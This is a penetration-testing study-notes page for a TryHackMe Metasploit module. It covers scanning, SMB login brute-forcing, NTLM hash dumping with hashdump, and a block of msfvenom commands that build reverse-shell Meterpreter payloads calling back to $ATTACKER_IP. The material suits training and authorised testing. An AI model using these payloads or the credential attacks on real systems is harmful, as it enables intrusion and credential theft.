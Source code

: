 # TryHackMe: Jr. Penetration Tester

## Exploitation with Metasploit

### Scanning

Use `search portscan` to display built-in Metasploit port scanners. Note that `msfconsole` needs to be run as root for many scans to work — just like Nmap. That said, in my experience the fancier TCP scans (for example, SYN) don’t work over a VPN… So maybe best to stick with Nmap.

Speaking of which, Nmap can also be called internally (like other shell commands).

The `auxiliary/scanner/discovery/udp_sweep` module will probe for common UDP services.

Metasploit has a variety of Samba/CIFS scanners too; use `search scanner/smb` to list them.

NetBIOS = Network Basic Input/Output System

TryHackMe emphasizes the importance of examining the usage of NetBIOS for potential vulnerabilities, though it’s a bit light on specifics about what this means in practice.

Use `show advanced` to show additional module options.

The `auxiliary/scanner/http/http_version` module will give you HTTP server version information.

The `auxiliary/scanner/smb/smb_login` module will allow you to bruteforce Samba logins (username and/or password) using a wordlist(s).

* [Using “nmap”](../notes/nmap.md)
* [CIFS](../notes/cifs.md)
* [TCP SYN Port Scanner - Metasploit](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/portscan/syn)

### The Metasploit Database

Get basic database status using `db_status`.

Create and delete workspaces (engagements) with `workspace`; use `-a` to add and `-d` to delete. Switch between workspaces using `workspace $NAME`.

Use `db_nmap` to run Nmap (all of the regular options work) and dump the results into the Metasploit database.

The `hosts` and `services` commands can then be used to display the, well, hosts and services logged by Metasploit during an engagement. Both commands support an `-S` search parameter, the results of which can then be added to `RHOSTS` using the `-R` parameter.

### Exploitation

Show the payloads available for a particular exploit using `show payloads`. Use `set payload` to set the payload for the exploit; re-run `show options` after this to check if the payload has added any additional options that will need to be set before exploitation.

Use `sessions` to, well, manage your sessions (most useful when you’ve backgrounded a payload and/or are working with multiple targets).

To dump NTLM hashes from Meterpreter, use the `hashdump` command. Normally only the first four fields are relevant:

* Username
* RID (the last four digits of the Windows SID, with leading zeros dropped)
* The user’s LM password hash
* The user’s NTLM password hash

References:

* [Dumping Windows Password Hashes Using Metasploit](https://www.utc.edu/sites/default/files/2021-04/4660-lab6.pdf)
* [Windows Password Hashes](../notes/windows-password-hashes.md)

### Msfvenom

Msfvenom is a tool to create custom versions of Metasploit payloads, encoded into a variety of different binary formats and scripts.

Use `--list formats` to see available encoding formats.

```bash
# 32-bit Linux ELF Meterpreter payload
#
msfvenom -p linux/x86/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f elf > rev_shell

# 32-bit Windows executable Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f exe > rev_shell.exe

# PHP Meterpreter payload
#
msfvenom -p php/meterpreter_reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.php

# ASP Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f asp > rev_shell.asp

# Python Meterpreter payload
#
msfvenom -p cmd/unix/reverse_python \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.py
```

Use the `exploit/multi/handler` module in Metasploit to catch the shells produced using Msfvenom (note that you’ll need to use `set payload` to tell Metasploit *what* it’s catching!). We can catch both regular reverse shells and Meterpreter sessions this way.

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> April 14, 2022

